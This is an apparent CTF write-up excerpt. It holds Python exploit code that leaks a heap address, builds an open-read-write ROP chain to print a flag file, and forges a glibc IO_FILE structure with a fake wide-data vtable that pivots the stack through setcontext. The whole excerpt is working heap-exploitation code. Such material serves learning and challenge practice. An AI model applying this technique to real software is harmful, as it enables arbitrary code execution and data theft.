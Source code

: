    ```python
   heap_addr = u64(p.recv(6).ljust(8,b'\x00'))-0x290
   success("heap_addr==>"+hex(heap_addr))
   
   # ORW
   syscall = read_addr+16
   flag = heap_addr+0x1230
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)#存放地址0x50
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(write_addr)
   
   # ========== 伪造IO_FILE ==========
   file = p64(0) + p64(0)              #_IO_read_end    _IO_read_base
   file+= p64(0) + p64(1) + p64(0)     #_IO_write_base  _IO_write_ptr _IO_write_end
   file+= p64(0) + p64(0)              #_IO_buf_base    _IO_buf_end
   file+= p64(0) * 11                  #_IO_save_base ~ _codecvt
   file+= p64(heap_addr + 0x370)        #_wide_data
   file+= p64(0) *3                    #_freeres_list ~ __pad5
   file+= p64(1) + p64(0)*2            # _mode  _unused2 (2dword)
   
   file+=p64(IO_wfile_jumps_addr + 0x30)   #vtable
   
   #_wide_data
   _wide_vtable = heap_addr + 0x380
   rdx = heap_addr + 0x380
   stack_change = heap_addr + 0x460
   
   file+= p64(0)*3                                      #_IO_read_ptr   _IO_read_end  _IO_read_base
   file+= p64(1) + p64(rdx) + p64(setcontext_addr)      #_IO_write_base _IO_write_ptr _IO_write_end
   file+= p64(0) * 16 + p64(stack_change) + p64(ret)
   file+= p64(0) * 4
   file+= p64(_wide_vtable)          #_wide_vtable
   file+= p64(0)   #填充
   # stack change
   file+= orw
   
   edit(0,file)
   p.sendline(b"5")
   p.interactive()
   ```

   
